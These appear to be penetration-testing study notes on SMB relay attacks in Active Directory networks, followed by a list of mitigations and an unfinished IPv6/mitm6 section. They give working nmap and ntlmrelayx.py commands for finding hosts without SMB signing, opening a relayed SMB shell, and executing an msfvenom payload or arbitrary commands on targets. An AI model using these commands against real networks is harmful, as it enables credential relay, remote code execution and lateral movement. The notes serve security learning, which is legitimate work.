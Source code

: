 ### Discover if SMB signing is disabled

- can search for a tool on Github
- or with nmap: `nmap --script=smb2-security-mode.nse -p 445 IP/24`

### If trying to get an interactive shell with ntlmrelayx

- append ***i*** to `ntlmrelayx.py -tf targets.txt -smb2support -i`
- ***tf*** stands for ***target file***
- when running interactive see in feeds where an which port is the one where ntlmrelayx created the interactive shell, I'll use port 11000 as an example here
- then on another tab in tty open up: `nc 127.0.0.1 11000`
- we are in an SMB shell essentially, type in `help` for available commands
- we can do many thing here, we can look at the shares, change password of current user, moving files, directories, create a mount point, upload file, etc.
- `shares` shows the available shares, then `use C$` once in, list it out `ls` and we've got access to the C: drive
- similarly we can ls out the admin folder as well

### Additionally with ntlmrelayx.py

- we can generate a payload with ***msfvenom*** like ***payload.exe*** as an example and execute it on the target machine and then set up a meterpreter listener in ***metasploit*** and get a shell on the target machine
- `ntlmrelayx.py -tf targets.txt -smb2support -e payload.exe`
- or we can execute commands with the ***c*** option
- it can be from something simple as `ntlmrelayx.py -tf targets.txt -c "whoami"` to a more complex reverse shell or PowerShell command

### Mitigation strategies

- **ENABLE SMB SINGIN ON ALL DEVICES**
- **PRO:** completely stops the attack
- **CON:** can cause performance issues with file copies
- **DISABLE NTLM AUTHENTICATION ON NETWORK**
- **PRO:** completely stops the attack
- **CON:** if Kerberos stops working, Windows defaults back to NTLM
- **ACCOUNT TIERING**
- **PRO:** limits domain admins to specific tasks
- **CON:** enforcing the policy may be difficult
- **LOCAL ADMIN RESTRICTIONS**
- **PRO:** can prevent a lot of lateral movement
- **CON:** potential increase in the amount of service desk tickets

### IPv6 attacks

### DNS takeover attacks via IPv6

- who's doing IPv6 DNS...? usually nobody!

### Installing mitm6
